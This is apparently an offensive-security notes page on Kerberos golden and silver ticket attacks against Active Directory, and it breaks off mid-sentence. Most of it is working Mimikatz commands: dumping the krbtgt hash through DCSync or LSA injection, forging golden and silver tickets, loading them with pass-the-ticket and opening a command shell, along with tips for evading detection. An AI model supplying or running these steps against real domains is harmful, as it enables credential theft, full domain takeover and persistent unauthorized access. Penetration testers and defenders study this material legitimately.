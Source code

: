 A golden ticket is a TGT crafted with the KRBTGT AD serivce's password, using which you can imitate any account on the entire AD.

##### Requirements
Admin level access to any user on the AD

##### Dumping the krbtgt hash
Use Mimikatz to dump the hash:
```
./mimikatz.exe
privilege::debug  // If this returns anything but "Privilege '20' OK", Mimikatz has not been run as Admin.
lsadump::dcsync /user:krbtgt@DOMAIN  // If you do not have Domain Controller privelege, use this.
lsadump::lsa /inject /name:krbtgt  // If you have DC Privilege, use this. For silver ticket creation, change the name.
```

##### Forging a Golden ticket
```
Kerberos::golden /user:Administrator /domain:controller.local /sid:MIMIKATZ_OUTPUT_SID /krbtgt:KRBTGT_NTLM
```
Note: the Key Distribution Center (`KDC`) will only check if the  `/user` -specified value is correct if the ticket is less than 20 minutes old. So as long as the ticket is older than 20 minutes, the specified user does not even need to exist.
`/sid`: The domain's SID (obtain via mimikatz output, or by using `Get-LocalUser -name krbtgt | select sid` and removing the last identifier (RID))
`/krbtgt`: The KRBTGT service's NTLM hash.

The ticket will now be stored in the current directory as "ticker.kirbi".

##### Exploiting using the Golden ticket
Load the ticket into memory:
```
kerberos::ptt TICKET_FILE
```
On another command prompt, check using:
```
klist // If it has a TGT, it has succeeded.
```
If you have RDP, create a remote shell:
```
misc::cmd
```
Otherwise, you can access whatever machine you want to as the Administrator via normal CMD, as long as you have the TGT active.

#### Silver tickets
Silver tickets are generated the same way as golden tickets, but with a few extra parameters:
```
kerberos::golden /admin:nonSuspiciousAccount /domain:DOMAIN /id:500 /sid:DOMAIN_SID /target:TARGET_HOSTNAME /rc4:TARGET_ACCOUT_NTLM /service:cifs /ptt
```

```
kerberos::golden /sid:DOMAIN_SID /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:TARGET_USER_NTLM /user:TARGET_USER
```
- For the Domain SID, 